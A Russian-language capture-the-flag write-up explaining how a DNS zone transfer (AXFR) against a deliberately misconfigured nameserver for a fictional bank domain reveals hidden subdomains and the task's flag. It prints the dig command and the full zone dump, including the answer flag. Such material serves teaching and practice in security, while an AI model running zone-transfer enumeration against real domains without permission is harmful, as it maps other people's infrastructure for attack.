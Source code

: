 # DNS-сервера: Write-up

Давайте подумаем: что такого страшного может быть в DNS-сервере? Кажется, первое, что приходит в голову — возможность получить все записи в зоне.

Первое, что можем попробовать сделать — `ANY`-запрос. Однако, ничего более интересного, чем флаг к таску __Послание сисадмина__ мы не найдем.

Погуглив, натыкаемся, например, на [ответ на stackoverflow](https://stackoverflow.com/a/19324947) или что-то аналогичное. Там рассказывается про возможность трансфера зоны (`AXFR`-запрос) и про то, что `these are typically restricted and not available unless you control the zone`. Но вы видели где-нибудь в нашем банке что-то restricted?

Надо подобрать правильный DNS-сервер, который разрешает всем трансфер зоны, но в этом ничего сложного — выясняется, что оба авторитативных сервера `ns1.bankbank.exposed` и `ns2.bankbank.exposed` просто указывают на один и тот же IP.

```
$ dig IN AXFR @ns1.bankbank.exposed bankbank.exposed

bankbank.exposed.       2560    IN      SOA     ns1.bankbank.exposed. hostmaster.bankbank.exposed. 1550888583 600 300 1048576 2560
bankbank.exposed.       1200    IN      NS      ns1.bankbank.exposed.
bankbank.exposed.       1200    IN      NS      ns2.bankbank.exposed.
bankbank.exposed.       300     IN      A       95.179.139.209
www.bankbank.exposed.   300     IN      A       95.179.139.209
jobs.bankbank.exposed.  300     IN      A       95.179.139.209
qr.bankbank.exposed.    300     IN      A       95.179.139.209
random.bankbank.exposed. 300    IN      A       95.179.139.209
store.bankbank.exposed. 300     IN      A       95.179.139.209
litsec.bankbank.exposed. 300    IN      A       95.179.139.209
earn.bankbank.exposed.  300     IN      A       95.179.139.209
ns1.bankbank.exposed.   300     IN      A       95.179.139.209
ns2.bankbank.exposed.   300     IN      A       95.179.139.209
botapi.bankbank.exposed. 300    IN      A       95.179.139.209
bankbank.exposed.       300     IN      MX      10 mx.yandex.net.
bankbank.exposed.       300     IN      TXT     "yandex-verification: 70ddd42d9c7067ef"
bankbank.exposed.       300     IN      TXT     "v=spf1 redirect=_spf.yandex.net ~all"
mail._domainkey.bankbank.exposed. 300 IN TXT    "v=DKIM1; k=rsa; t=s; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDUwGoNveBrd82bnyKs9Nk8z1p7sqiMVfRNhZCQWAq79a0VIibyBft4Pz7SAqFmsNvs" "7TNgZ6kCfYp88ZPFbkntUP8YS9rvuPSMPZTZhQk97vZUfnKklRFZqIFk6UfgzxzwuEx1A9PNUXwUdNXkzpDVKY422B5Ioxqun0jGzLR9MwIDAQAB"
bankbank.exposed.       300     IN      TXT     "uctf_digg3r_3xp3rt_or_n0t"
totallysecret-64354262612.bankbank.exposed. 300 IN TXT "uctf_r341_digg3r_3xp3rt"
bankbank.exposed.       2560    IN      SOA     ns1.bankbank.exposed. hostmaster.bankbank.exposed. 1550888583 600 300 1048576 2560
```

Флаг: **uctf_r341_digg3r_3xp3rt**
